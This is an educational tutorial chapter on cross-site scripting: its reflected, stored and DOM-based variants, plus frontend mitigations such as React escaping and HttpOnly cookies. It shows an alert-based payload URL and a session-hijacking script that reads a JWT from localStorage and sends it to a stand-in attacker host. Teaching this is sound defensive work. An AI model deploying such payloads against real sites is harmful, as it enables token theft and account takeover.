

# XSS and Client-Side Attacks (Frontend)

While SQL injection attacks the Database (Backend), **XSS (Cross-Site Scripting)** attacks the application's users (Frontend). The goal of XSS is not to steal data from the server, but to steal data from the user's browser (like their Session Cookies or JWT Token).

## 1. Understanding XSS

XSS occurs when a web application allows a user to input information (for example, in a forum comment) and then the system displays that information on the screen of other users without "sanitizing" or cleaning it.



## 2. Types of XSS

There are three main variants that every pentester looks for:

### Reflected XSS
The attack goes in the URL. The attacker sends you a link via email:
`https://bank.com/search?q=<script>alert('Hack')</script>`
If the page takes the `q` parameter from the URL and paints it directly in the HTML ("Results for: `<script>...`), your browser will execute it instantly.

### Stored XSS (The most dangerous)
The malicious script is saved in the database (Ex: In a user's profile description, or in a Tweet). Anyone who visits the profile will be hacked automatically, no need to click on weird links.

### DOM-Based XSS
The vulnerability occurs entirely within the Frontend JavaScript code (e.g., React or Vue). It usually happens when using dangerous functions like `innerHTML` in Vanilla JS or `dangerouslySetInnerHTML` in React with user-controlled data.

## 3. Practical Demonstration (Session Hijacking)

Instead of a harmless `alert('Hack')`, a real attacker would inject this in a comment:

```html
<script>
  // We steal the JWT Token from LocalStorage
  const token = localStorage.getItem('access_token');
  // We send it to the attacker's server silently in the background
  fetch('https://hacker-server.com/steal?jwt=' + token);
</script>
```
When the site Administrator logs in to review comments, their browser will execute this script and the attacker will gain full access as Administrator.

## 4. Frontend Mitigation
* **React is safe by default:** If you use `{variable}` in React, the framework automatically escapes dangerous characters (`<` becomes `&lt;`). 
* **HttpOnly Cookies:** Never save a critical access token in `LocalStorage` or in normal cookies. Save it in a Cookie with the `HttpOnly` and `Secure` flags. This makes it physically impossible for JavaScript (and therefore XSS) to read the cookie.

In the **Advanced Level**, we will take a deeper step analyzing Request Forgery attacks (CSRF/SSRF) and how to trick servers.
